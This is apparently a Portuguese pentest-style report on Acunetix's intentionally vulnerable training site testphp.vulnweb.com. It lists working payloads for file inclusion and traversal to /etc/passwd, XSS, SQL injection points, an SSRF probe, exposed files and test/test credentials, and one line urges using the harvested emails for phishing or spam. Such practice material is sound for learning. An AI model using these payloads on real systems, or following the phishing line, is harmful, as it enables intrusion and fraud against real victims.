


Coletar todas as vulnerabilidades e informações em http://testphp.vulnweb.com/
A inclusão de arquivos permite que um atacante inclua arquivos remotos ou locais arbitrários em uma página da web.
Essas URLs são vulneráveis a inclusão de arquivos, o que pode permitir que um atacante inclua e execute código arbitrário no contexto do servidor web.
Ferramentas: Ferramentas de teste de segurança da web, como o Burp Suite, podem ser usadas para explorar vulnerabilidades de inclusão de arquivos.
Instruções: Inclua URLs de arquivos remotos ou locais nas solicitações HTTP para as URLs fornecidas e observe se os arquivos são incluídos e executados com sucesso.
http://testphp.vulnweb.com/showimage.php?file=showimage.php
http://testphp.vulnweb.com/showimage.php?file=php://filter/convert.base64-encode/resource=showimage.php
Para explorar o site, existem várias maneiras. Aqui estou usando a ferramenta "gau" para obter todas as URLs. Você também pode usar o Burp Suite para explorar o site.
Agora, para encontrar os parâmetros de solicitação GET que têm uma conexão com o servidor, estou usando a ferramenta padrões qf. Você também pode usar o Burp.
Agora, pegue qualquer URL do arquivo final.txt e verifique manualmente.
Para esta demonstração, estarei testando em http://testphp.vulnweb.com/showimage.php?file=./pictures/1.jpg.
O arquivo /etc/passwd armazena informações essenciais, necessárias durante o login. Em outras palavras, ele armazena informações da conta do usuário. O /etc/passwd é um arquivo de texto simples. Ele contém uma lista das contas do sistema, fornecendo para cada conta algumas informações úteis como ID do usuário, ID do grupo, diretório inicial, shell e mais. O arquivo /etc/passwd deve ter permissão de leitura geral, já que muitos utilitários de comando o usam para mapear IDs de usuário para nomes de usuário. No entanto, o acesso de escrita ao /etc/passwd deve ser limitado apenas para a conta de superusuário/root.
Neste caso, recebi o erro http://testphp.vulnweb.com/showimage.php?file=../etc/passwd
Então, eu atravessei 1 diretório para trás e obtive um arquivo sensível que não deveria ser divulgado
http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd
Essas URLs revelam arquivos e diretórios sensíveis que podem ser explorados por atacantes para obter informações confidenciais ou executar ações maliciosas.
A exploração dessas vulnerabilidades pode levar ao acesso não autorizado a informações sensíveis ou à execução de código arbitrário no servidor.
Ferramentas: Ferramentas de busca na web, como o Google Dorks, podem ser usadas para encontrar sites vulneráveis e expostos.
Instruções: Tente acessar cada URL listada e examine os arquivos ou diretórios expostos em busca de informações sensíveis ou possíveis pontos de entrada para ataques.
http://testphp.vulnweb.com/index.zip
http://testphp.vulnweb.com/.idea/workspace.xml
http://testphp.vulnweb.com/admin/
http://testphp.vulnweb.com/Mod_Rewrite_Shop/.htaccess
http://testphp.vulnweb.com/crossdomain.xml
http://testphp.vulnweb.com/CVS/Root
http://testphp.vulnweb.com/secured/phpinfo.php
http://testphp.vulnweb.com/_mmServerScripts/mysql.php
Essas URLs revelam diretórios do servidor que não têm uma página de índice, permitindo que um atacante veja o conteúdo do diretório, incluindo arquivos sensíveis ou informações confidenciais.
A indexação de diretórios pode expor informações sobre a estrutura do sistema de arquivos do servidor, facilitando ataques direcionados.
Ferramentas: Ferramentas de busca na web, como o Google Dorks, podem ser usadas para encontrar sites vulneráveis e expostos.
Instruções: Tente acessar cada URL listada e examine os arquivos ou diretórios expostos em busca de informações sensíveis ou possíveis pontos de entrada para ataques.
http://testphp.vulnweb.com/Flash/
http://testphp.vulnweb.com/CVS/
http://testphp.vulnweb.com/.idea/
Essas informações podem ser exploradas por atacantes para realizar ataques direcionados ou engenharia social.
Os endereços de e-mail e URLs expostos podem ser usados para phishing, spam ou outros tipos de ataques.
Ferramentas: Ferramentas de busca na web, como o Google, podem ser usadas para encontrar informações confidenciais expostas.
Instruções: Use os endereços de e-mail ou URLs para fins maliciosos, como phishing ou spam, ou para realizar ataques direcionados.
wvs@acunetix.com
test@gmail.com
http://127.0.0.1
wasp@acunetix.com
O XSS permite que um atacante injete scripts maliciosos em páginas da web visualizadas por outros usuários.
Essas URLs são vulneráveis a XSS, permitindo que um atacante execute código JavaScript arbitrário no navegador de um usuário.
Ferramentas: Ferramentas de teste de segurança da web, como o Burp Suite ou o OWASP ZAP, podem ser usadas para identificar e explorar vulnerabilidades XSS.
Instruções: Injete payloads XSS nas solicitações HTTP para as URLs fornecidas e observe se os scripts são executados no navegador.
POST http://testphp.vulnweb.com/search.php 'searchFor'
POST http://testphp.vulnweb.com/guestbook.php 'name'
POST http://testphp.vulnweb.com/secured/newuser.php 'uuname'
GET http://testphp.vulnweb.com/listproducts.php?cat=<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
GET http://testphp.vulnweb.com/listproducts.php?artist=<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
GET http://testphp.vulnweb.com/hpp/?pp=%22%3E%3CIMG%20sRC=X%20onerror=jaVaScRipT:alert`xss`%3E
GET http://testphp.vulnweb.com/hpp/params.php?p=<IMG sRC=X onerror=jaVaScRipT:alert`xss`>
A injeção de SQL permite que um atacante execute comandos SQL maliciosos em um banco de dados.
Essas URLs são vulneráveis a injeção de SQL, o que permite que um atacante execute consultas SQL arbitrários no banco de dados subjacente.
Ferramentas: Ferramentas de teste de segurança da web, como o SQLMap, podem ser usadas para identificar e explorar vulnerabilidades de injeção de SQL.
Instruções: Injete payloads de SQL nas solicitações HTTP para as URLs fornecidas e observe se as consultas SQL são executadas com sucesso.
POST http://testphp.vulnweb.com/secured/newuser.php 'uuname' error SQLi vulnerable
POST http://testphp.vulnweb.com/userinfo.php 'uname' blind SQLi vulnerable
GET http://testphp.vulnweb.com/artists.php 'artist' error SQLi vulnerable
GET http://testphp.vulnweb.com/listproducts.php 'cat' error SQLi vulnerable
GET http://testphp.vulnweb.com/listproducts.php 'artist' error SQLi vulnerable
GET http://testphp.vulnweb.com/product.php 'pic' error SQLi vulnerable
GET http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php 'id' SQLi vulnerable
GET http://testphp.vulnweb.com/AJAX/infocateg.php 'id' SQLi vulnerable
SSRF permite que um atacante envie solicitações HTTP de um servidor para outros servidores internos ou externos arbitrários.
Essas URLs são vulneráveis a SSRF, permitindo que um atacante envie solicitações HTTP de um servidor para um servidor interno ou externo arbitrário, potencialmente acessando informações sensíveis ou realizando ações maliciosas.
Ferramentas: Ferramentas de teste de segurança da web, como o Burp Suite, podem ser usadas para explorar vulnerabilidades de SSRF.
Instruções: Substitua o parâmetro da URL por um servidor alvo controlado pelo atacante e observe se as solicitações são enviadas com sucesso e se as respostas contêm informações sensíveis.
http://testphp.vulnweb.com/showimage.php?file=http://127.0.0.1:22
O CLRF é uma falha que permite injetar cabeçalhos HTTP maliciosos em uma solicitação HTTP.
Embora não tenha sido identificado um exemplo específico de CLRF, essa vulnerabilidade pode ser explorada para manipular solicitações HTTP, levando a ataques de injeção de cabeçalho ou outros ataques de manipulação de solicitação.
Essas credenciais de usuário e senha são fracos e podem ser facilmente adivinhados ou bruteforceados por atacantes.
Usar senhas fracas pode levar à comprometimento de contas de usuário e acesso não autorizado ao sistema.
test/test